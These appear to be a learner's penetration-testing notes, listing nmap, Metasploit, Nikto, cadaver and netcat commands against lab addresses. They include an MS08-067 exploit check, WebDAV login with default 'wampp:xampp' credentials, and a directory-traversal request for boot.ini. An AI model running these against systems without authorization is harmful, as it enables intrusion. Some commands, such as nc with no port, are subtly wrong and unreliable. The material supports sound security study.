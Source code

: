 ```
/usr/share/nmap/scripts # location of nmap scripts
nmap --script-help default # help on default scripts
nmap -sC 192.168.20.10-20 # runs script scan in addition to port scan

nmap --script-help nfs-ls # help on a single script
nmap --script=nfs-ls 192.168.20.11 # run a single script

ssh 192.168.20.11 # ssh into a server
```

## Metasploit Scanner Modules

```
service postgresql start # start the database
msfconsole # starts the console
use scanner/ftp/anonymous # looks for anonymous FTP access
set RHOSTS 192.168.20.10-11
exploit
```

## Metasploit Exploit Check Functions

```
service postgresql start # start the database
msfconsole # starts the console
use windows/smb/ms08_067_netapi # loads an exploit
set RHOST 192.168.20.10
check # checks if the target is susceptable to the exploit (does not run the exploit)
# note: not all exploits have checkadmin

```

# Web Application Scanning

## Nikto

```
nikto -h 192.168.20.10 # runs web application vulnerability scanner
```

ad

```
# *** really not sure what this tool is used for??? ***
cadaver http://192.168.20.10/webdav # supply wampp:xampp 
```

Connecting to a web server manually with Netcat

```
nc 192.168.20.10 # connect to web server
GET / HTTP/1.1 # using nc to send a GET request

nc 192.168.20.10 # connect to web server
GET /../../../../../boot.ini HTTP/1.1 # using nc to send a GET request for windows file
```
